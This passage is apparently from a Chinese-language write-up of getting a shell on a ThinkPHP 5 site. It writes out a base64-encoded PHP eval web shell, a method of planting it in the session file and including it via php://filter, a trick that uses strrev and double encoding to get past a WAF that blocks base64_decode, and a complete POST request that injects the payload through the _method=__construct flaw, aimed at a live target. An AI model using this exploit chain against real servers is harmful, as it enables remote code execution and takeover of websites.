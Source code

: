 (注意：这里的+号需要用`urlencode`编码为%2b，不然会在写入`session`的时候被urldecode为空格，导致编码解码失败)。

疑问点1：为什么不用`PD9waHAgQGV2YWwoJF9HRVRbJ3InXSk7Pz4= (<?php @eval($_GET['r']);?>)`而是`PD9waHAgQGV2YWwoJF9HRVRbJ3InXSk7Oz8+ (<?php @eval($_GET['r']);;?>)` 呢，

答：是因为直接使用前者无论怎么拼凑字符，都没法正常解码。

疑问点2：为什么`payload`前后会有两个`ab`？

答：是为了让`shell payload` 的前后两串字符串满足base64解码的长度，使其能正常解码。

第二步，包含，成功执行代码：

![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMDgtZDkzYTFlZjYtYzc5Yy0xLnBuZw==.jpg)

本地测试如此，但是在目标测试会发现执行不了，因为我们的payload使用了`php://filter`的协议包含了`php://`关键字  
![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL2ltZzIwMTguY25ibG9ncy5jb20vYmxvZy8xMjA1NDc3LzIwMTkwOC8xMjA1NDc3LTIwMTkwODI3MTAxNjAwMjQxLTE2MTMyNTU0NC5wbmc=.jpg)

怎么让才能让其没有关键字呢？

### tp 5 method代码执行的细节

让我们仔细观察代码执行的`Request.php`的`filterValue`方法是如何执行代码的。

![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMDktZDljMGM5MDYtYzc5Yy0xLnBuZw==.jpg)

我们注意到`filter`其实是可以传递多个的，同时参数为参数引用。

那么其实我们就可以传递多个`filter`来对`value`进行多次传递处理。如先`base64_decode`后将解码后的值传递给`include`进行包含。

![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMDktZGEwZDA1ZTYtYzc5Yy0xLnBuZw==.jpg)

但在线上这个waf是对`base64_decode`这个函数进行了过滤的，经过测试发现可以使用`strrev`反转函数突破。考虑到waf的问题，我们使用的`shell payload`加多一层base64编码。

![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMTAtZGEzMzE2ZjAtYzc5Yy0xLnBuZw==.jpg)

同样道理这里的payload为什么要多几个分号就不需要再解释了

回到我们的`getshell`步骤，在目标上执行

1，设置`session`：

```


1.  `POST /?s=captcha  
    `
2.  `Cookie: PHPSESSID=kktest`

4.  `_method=__construct&filter[]=think\Session::set&method=get&get[]=abPD9waHAgQGV2YWwoYmFzZTY0X2RlY29kZSgkX0dFVFsnciddKSk7Oz8%2bab&server[]=1`


```

![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMTAtZGE3MDAyZjQtYzc5Yy0xLnBuZw==.jpg)
